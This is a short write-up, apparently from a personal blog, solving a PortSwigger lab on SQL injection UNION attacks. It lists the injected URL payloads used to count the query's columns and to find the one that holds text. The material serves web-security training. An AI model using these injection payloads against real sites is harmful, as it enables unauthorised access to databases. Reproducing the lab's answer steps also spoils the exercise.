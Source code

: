 ```yaml
---
title: PortSwigger - SQLi 4 - Finding column containing text
date: 2023-03-03
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided.

Value provided: '`abc`'

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

We now know there are 3 columns. Time to find which one contains string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,'abc'--    # error!
````

The second column contains string.
